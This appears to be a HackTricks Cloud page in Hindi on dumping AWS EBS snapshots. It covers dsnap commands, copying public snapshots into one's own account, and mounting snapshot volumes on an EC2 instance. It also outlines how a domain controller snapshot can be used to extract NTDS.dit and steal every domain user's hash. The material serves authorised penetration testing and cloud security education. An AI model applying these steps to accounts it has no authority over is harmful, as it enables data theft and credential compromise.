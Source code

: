 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## एक स्नैपशॉट को स्थानीय रूप से जांचना
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**नोट** कि `dsnap` आपको सार्वजनिक स्नैपशॉट डाउनलोड करने की अनुमति नहीं देगा। इससे बचने के लिए, आप स्नैपशॉट की एक प्रति अपने व्यक्तिगत खाते में बना सकते हैं, और उसे डाउनलोड कर सकते हैं:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

इस तकनीक के बारे में अधिक जानकारी के लिए मूल शोध देखें [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

आप इसे Pacu के साथ [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) मॉड्यूल का उपयोग करके कर सकते हैं

## AWS में एक स्नैपशॉट की जांच करना

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**इसे आपके नियंत्रण में एक EC2 VM में माउंट करें** (यह बैकअप की कॉपी के समान क्षेत्र में होना चाहिए):

चरण 1: EC2 –> वॉल्यूम पर जाकर आपके पसंद के आकार और प्रकार का एक नया वॉल्यूम बनाया जाना है।

इस क्रिया को करने के लिए, इन कमांड का पालन करें:

* EC2 इंस्टेंस से जोड़ने के लिए एक EBS वॉल्यूम बनाएं।
* सुनिश्चित करें कि EBS वॉल्यूम और इंस्टेंस एक ही जोन में हैं।

चरण 2: बनाए गए वॉल्यूम पर राइट-क्लिक करके "जोड़ें वॉल्यूम" विकल्प का चयन किया जाना है।

चरण 3: इंस्टेंस टेक्स्ट बॉक्स से इंस्टेंस का चयन किया जाना है।

इस क्रिया को करने के लिए, निम्नलिखित कमांड का उपयोग करें:

* EBS वॉल्यूम को जोड़ें।

चरण 4: EC2 इंस्टेंस में लॉगिन करें और कमांड `lsblk` का उपयोग करके उपलब्ध डिस्क की सूची बनाएं।

चरण 5: कमांड `sudo file -s /dev/xvdf` का उपयोग करके जांचें कि वॉल्यूम में कोई डेटा है या नहीं।

यदि उपरोक्त कमांड का आउटपुट "/dev/xvdf: data" दिखाता है, तो इसका मतलब है कि वॉल्यूम खाली है।

चरण 6: कमांड `sudo mkfs -t ext4 /dev/xvdf` का उपयोग करके वॉल्यूम को ext4 फाइल सिस्टम में फॉर्मेट करें। वैकल्पिक रूप से, आप कमांड `sudo mkfs -t xfs /dev/xvdf` का उपयोग करके xfs फॉर्मेट भी कर सकते हैं। कृपया ध्यान दें कि आपको या तो ext4 या xfs का उपयोग करना चाहिए।

चरण 7: नए ext4 वॉल्यूम को माउंट करने के लिए अपनी पसंद का एक डायरेक्टरी बनाएं। उदाहरण के लिए, आप "newvolume" नाम का उपयोग कर सकते हैं।

इस क्रिया को करने के लिए, कमांड `sudo mkdir /newvolume` का उपयोग करें।

चरण 8: कमांड `sudo mount /dev/xvdf /newvolume/` का उपयोग करके वॉल्यूम को "newvolume" डायरेक्टरी में माउंट करें।

चरण 9: "newvolume" डायरेक्टरी में डायरेक्टरी बदलें और वॉल्यूम माउंट को मान्य करने के लिए डिस्क स्पेस की जांच करें।

इस क्रिया को करने के लिए, निम्नलिखित कमांड का उपयोग करें:

* `/newvolume` में डायरेक्टरी बदलें।
* कमांड `df -h .` का उपयोग करके डिस्क स्पेस की जांच करें। इस कमांड का आउटपुट "newvolume" डायरेक्टरी में फ्री स्पेस दिखाना चाहिए।

आप इसे Pacu के साथ `ebs__explore_snapshots` मॉड्यूल का उपयोग करके कर सकते हैं।

## AWS में एक स्नैपशॉट की जांच करना (cli का उपयोग करके)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

कोई भी AWS उपयोगकर्ता जिसके पास **`EC2:CreateSnapshot`** अनुमति है, वह **डोमेन कंट्रोलर का स्नैपशॉट** बनाकर सभी डोमेन उपयोगकर्ताओं के हैश चुरा सकता है, इसे एक ऐसे इंस्टेंस पर माउंट करके जिसे वह नियंत्रित करता है और **NTDS.dit और SYSTEM** रजिस्ट्री हाइव फ़ाइल को Impacket के secretsdump प्रोजेक्ट के लिए निर्यात कर सकता है।

आप इस हमले को स्वचालित करने के लिए इस उपकरण का उपयोग कर सकते हैं: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) या आप स्नैपशॉट बनाने के बाद पिछले तकनीकों में से किसी एक का उपयोग कर सकते हैं।

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
